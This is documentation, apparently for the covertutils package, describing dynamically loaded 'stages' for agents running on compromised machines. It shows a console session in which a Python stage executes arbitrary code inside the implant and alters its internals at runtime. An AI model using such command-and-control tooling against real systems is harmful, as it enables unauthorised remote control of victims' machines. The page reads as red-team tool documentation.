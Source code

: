 Beyond the OS Shell
===================

The `covertutils` package has an API for creating custom stages that can be dynamically loaded to compromised machines.
If a :class:`covertutils.handlers.stageable.StageableHandler` is running in a pwned machine stages can be pushed to it.

The API is documented in the `payloads` section (under construction).

Some stages are demonstrarted in this page.


The Python Stage
----------------

A Python shell with access to all internals is available.

The sent code runs directly in the `covertutils stage API`,
so it is able to access the `storage` and `storage['COMMON']` dictionaries and change internals objects at runtime.

.. code:: bash

	(covertutils v0.2.1)[control]> !python
	(covertutils v0.2.1)[python]>
	(covertutils v0.2.1)[python]> print "This is Python code!"
	This is Python code!

	(covertutils v0.2.1)[python]> print "It is Executed in Agent"
	It is Executed in Agent

	(covertutils v0.2.1)[python]> print "It has access to all internals at runtime"
	It has access to all internals at runtime

	(covertutils v0.2.1)[python]> print "Like the '%s' object" % (str(storage['COMMON']['handler'])	# It compiles and returns syntactical error
	unexpected EOF while parsing (<string>, line 1)			# Notice the parenthesis!

	(covertutils v0.2.1)[python]> print "Like the '%s' object running right now!" % (str(storage['COMMON']['handler']))

	Like the '<__main__.AgentHandler object at 0x7f42596c1d90>' object running right now!

	(covertutils v0.2.1)[python]> storage['whatever'] = "You can also store things in 'storage' dict"
	(covertutils v0.2.1)[python]>
	(covertutils v0.2.1)[python]> print storage['whatever']
	You can also store things in 'storage' dict

	(covertutils v0.2.1)[python]> print "It can modify things at runtime!"
	It can modify things at runtime!

	(covertutils v0.2.1)[python]> storage['COMMON']['handler'].send_function = None
	(covertutils v0.2.1)[python]>
	(covertutils v0.2.1)[python]> print "Nulled the send function, the Agent will remain silent..."
	(covertutils v0.2.1)[python]> Exception in thread Thread-67:
	Traceback (most recent call last):
	  File "/usr/lib/python2.7/threading.py", line 801, in __bootstrap_inner
	    self.run()
	  File "/usr/lib/python2.7/threading.py", line 754, in run
	    self.__target(*self.__args, **self.__kwargs)
	  File "/home/unused/Projects/covertutils/covertutils/handlers/basehandler.py", line 69, in __consume
	    self.onMessage( stream, message )
	  File "manual_testbed.py", line 62, in onMessage
	    self.preferred_send(ret)
	  File "/home/unused/Projects/covertutils/covertutils/handlers/basehandler.py", line 138, in sendAdHoc
	    self.send_function( chunk )
	TypeError: 'NoneType' object is not callable

	(covertutils v0.2.1)[python]>
	(covertutils v0.2.1)[python]>
	Really Control-C [y/N]? y
	Aborted by the user...
